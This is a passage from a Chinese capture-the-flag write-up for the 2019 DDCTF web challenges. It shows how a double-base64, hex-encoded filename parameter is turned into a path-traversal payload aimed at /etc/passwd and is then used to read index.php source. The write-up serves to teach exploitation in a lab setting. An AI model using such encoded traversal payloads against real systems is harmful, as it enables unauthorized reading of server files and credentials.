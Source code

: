```yaml
---
title: 2019DDCTF  writeup
comments: true
date: 2019-04-19 11:04:00
tags:
	- writeup
	- web
	- misc
categories:
	- 信息安全
	- writeup
keywords:
	- ddctf
	- writeup
---
```


> 本文首发先知社区，文章链接：https://xz.aliyun.com/t/4862

最近打了打DDCTF，本来是无聊打算水一波。最后竟然做high了，硬肛了几天..
以下为本次比赛web题目的WriteUp:



### [100pt] 滴~

看到url疑似base64，尝试解密后发现加密规则如下。

```
b64(b64(ascii2hex(filename)))
```

于是可以自己构造，使其实现任意文件读取，首先先尝试/etc/passwd。

```
[plain] -> ../../../../../../../etc/passwd
[0] HEX -> 2E2E2F2E2E2F2E2E2F2E2E2F2E2E2F2E2E2F2E2E2F6574632F706173737764
[1] base64 -> MkUyRTJGMkUyRTJGMkUyRTJGMkUyRTJGMkUyRTJGMkUyRTJGMkUyRTJGNjU3NDYzMkY3MDYxNzM3Mzc3NjQ=
[2] base64 -> TWtVeVJUSkdNa1V5UlRKR01rVXlSVEpHTWtVeVJUSkdNa1V5UlRKR01rVXlSVEpHTWtVeVJUSkdOalUzTkRZek1rWTNNRFl4TnpNM016YzNOalE9
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190419014929-50947ba0-6202-1.png)

发现斜杠被过滤掉了。此时尝试读一下index.php源码。来看一下规则。

```
[plain] -> index.php
[2] base64 -> TmprMlJUWTBOalUzT0RKRk56QTJPRGN3
```

最终获取到源码如下。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190419014929-50be2e82-6202-1.png)

在这里，可以看到对对文件读取做了限制，想绕正则，是不存在的。此时打开预留hint看看，猜测可能是echo的问题？试了许久，还是放弃了。
